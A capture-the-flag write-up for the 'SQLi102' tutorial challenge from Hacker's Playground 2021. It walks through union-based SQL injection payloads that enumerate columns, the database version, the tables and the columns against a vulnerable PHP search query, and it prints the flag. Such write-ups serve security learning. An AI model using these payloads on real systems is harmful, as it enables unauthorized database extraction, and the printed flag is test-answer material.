


# SQLi102

## Description

```
This is the next lesson of SQLi 101.

The server is running at: http://sqli102.sstf.site/step3.php.

This is a tutorial challenge from Hacker's Playground 2021.
If you are not sure how to solve this,
please refer to the tutorial guide(Eng | Kor).
```

## Solution
We can see a search form and the hint, which gives the source code of this page.


It seems there is a classic SQLi and we need to investigate the DB schema.

```php
    $query = "select * from books where title like '%".$_GET['searchkey']."%'";
```

Since it shows all matching results, we could try union-based SQLi. We first examine how many columns are in the table.

```sql
' AND false UNION SELECT 1,2,3,4,5,6,7,8-- -
```

With the above query, we can get search results like below. Let's pull out the interesting data into `Title` column.


We can fingerprint the DB and figure out it is `MySQL`-like DB since `version()` works like below.

```sql
' AND false UNION SELECT 1,version(),3,4,5,6,7,8-- -
```


We can extract hidden table `findme` like below.

```sql
' AND false UNION SELECT 1,(SELECT group_concat(concat(table_schema,'.',table_name)) FROM information_schema.tables WHERE table_schema!='information_schema'),3,4,5,6,7,8-- -
```



Also, we can extract columns of the `findme` table, which is the flag, like below.

```sql
' AND false UNION SELECT 1,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='findme'),3,4,5,6,7,8-- -
```



## Flag
`SCTF{b451c_SQLi_5k1lls}`